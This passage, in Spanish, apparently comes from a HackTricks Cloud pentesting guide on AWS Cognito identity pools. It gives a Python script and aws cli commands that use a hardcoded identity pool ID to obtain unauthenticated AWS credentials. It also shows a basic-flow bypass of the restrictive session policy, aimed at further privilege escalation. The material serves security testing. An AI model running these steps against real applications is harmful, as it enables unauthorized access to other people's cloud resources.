 # Pools de identidad de Cognito

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información básica

Con un pool de identidad, tus usuarios pueden **obtener credenciales temporales de AWS para acceder a los servicios de AWS**, como Amazon S3 y DynamoDB. Los pools de identidad admiten usuarios invitados anónimos, así como los siguientes proveedores de identidad que puedes usar para autenticar a los usuarios para los pools de identidad:

* Pools de usuarios de Amazon Cognito
* Inicio de sesión social con Facebook, Google, Inicio de sesión con Amazon y Inicio de sesión con Apple
* Proveedores de OpenID Connect (OIDC)
* Proveedores de identidad SAML
* Identidades autenticadas por el desarrollador

### Cognito Sync

Para generar sesiones de pool de identidad, primero necesitas **generar un ID de identidad**. Este ID de identidad es la **identificación de la sesión de ese usuario**. Estas identificaciones pueden tener hasta 20 conjuntos de datos que pueden almacenar hasta 1 MB de pares clave-valor.

Esto es **útil para mantener información de un usuario** (que siempre usará el mismo ID de identidad).

Además, el servicio **cognito-sync** es el servicio que permite **administrar y sincronizar esta información** (en los conjuntos de datos, enviando información en flujos y mensajes SNS...).

## Accediendo a roles IAM

### No autenticado

Lo único que un atacante necesita saber para **obtener credenciales de AWS** en una aplicación Cognito como usuario no autenticado es el **ID del pool de identidad**, y este **ID debe estar codificado en el código fuente** de la aplicación web/móvil para que lo use. Un ID se ve así: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (no se puede obtener por fuerza bruta).

{% hint style="success" %}
El **rol IAM Cognito no autenticado creado a través de** se llama por defecto `Cognito_<nombre del pool de identidad>Unauth_Role`
{% endhint %}

Si encuentras un ID de pool de identidad codificado en el código fuente y permite usuarios no autenticados, puedes obtener credenciales de AWS con:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

O puedes usar los siguientes **comandos de aws cli**:

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```

{% hint style="warning" %}
Ten en cuenta que por defecto un usuario de cognito **no autenticado NO puede tener ningún permiso, incluso si se le asignó mediante una política**. Revisa la siguiente sección.
{% endhint %}

### Flujo de autenticación mejorado vs básico

La sección anterior siguió el **flujo de autenticación mejorado predeterminado**. Este flujo establece una **política de sesión restrictiva** [**session policy**](../../aws-basic-information/#session-policies) para la sesión de rol IAM generada. Esta política solo permitirá que la sesión [**use los servicios de esta lista**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (incluso si el rol tenía acceso a otros servicios).

Sin embargo, hay una forma de evitar esto, si el **pool de identidad tiene habilitado el "Flujo básico (clásico)"**, el usuario podrá obtener una sesión usando ese flujo que **no tendrá esa política de sesión restrictiva**.

{% code overflow="wrap" %}
```bash
# Obtener ID de autenticación
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Obtener token de inicio de sesión
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Usar el token de inicio de sesión para obtener credenciales de sesión IAM
## Si no conoces el role_arn, usa el flujo mejorado anterior para obtenerlo
aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Si recibes este **error**, es porque el **flujo básico no está habilitado (predeterminado)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Teniendo un conjunto de credenciales IAM, debes verificar [a qué tienes acceso](../../#whoami) y tratar de [escalar privilegios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Recuerda que es probable que a los **usuarios autenticados** se les otorguen **permisos diferentes**, así que si puedes **registrarte dentro de la aplicación**, intenta hacerlo y obtener las nuevas credenciales.
{% endhint %}

También podría haber **roles** disponibles para **usuarios autenticados que acceden al pool de identidad**.

Para esto, es posible que necesites tener acceso al **proveedor de identidad**. Si ese es un **